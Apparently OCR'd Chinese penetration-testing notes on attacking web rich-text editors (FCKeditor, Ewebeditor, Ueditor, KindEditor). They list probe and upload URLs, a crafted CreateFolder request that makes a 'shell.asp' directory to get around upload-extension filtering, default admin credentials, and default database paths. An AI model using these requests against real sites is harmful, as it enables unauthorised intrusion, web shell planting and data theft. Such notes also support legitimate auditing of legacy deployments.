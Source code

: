 - FCKeditor

  - fckeditor编辑器页
    fckeditor/_samples/default.html
  - 查看编辑器版本
    fckeditor/whatsnew.html
    /fckeditor/editor/dialog/fck about.html
  - 查看文件上传路径
    fckeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?
    command=getfoldersandfiles&type=image&currentfolder=/
  - 文件上传页面
    fckeditor/editor/filemanager/connectors/test.html
    fckeditor/editor/filemanager/connectors/uploadtest.html
    fckeditor/editor/filemanager/browser/default/connectors/test.html
    fckeditor/editor/filemanager/upload/test.html
  - 高版本利用US解析漏洞组合创建.asp目录会将.替换成_
    绕过方式：递归创建
    FCKeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=file&CurrentFolder=/shell.asp&
    NewFoldername=test
    先创建shell.asp再创建test目录，这样可以绕过高版本将.asp替换成_aspl
  - 修改允许上传后缀名绕过（登录到后台）

- Ewebeditor

  - 关键文字的名称和路径
    Admin Login.asp登录页面
    Admin Default.asp管理首页
    Admin UploadFile.asp
    Upload.asp
  - 默认用户名密码
    账号密码基本是默认的admin/admin(admin888)
  - 下载数据库
    默认数据库/db/ewebeditor.mdb或者/db/ewebeditor.asp
  - 文件上传接口存在任意文件上传
  - 遍历路径目录遍历
  - Cookie漏洞日志文件中泄露cookie
  - 后台允许上传后缀名

- Ueditor

  - 文件读取

    file目录文件读取

    image目录文件读取

- KindEditor

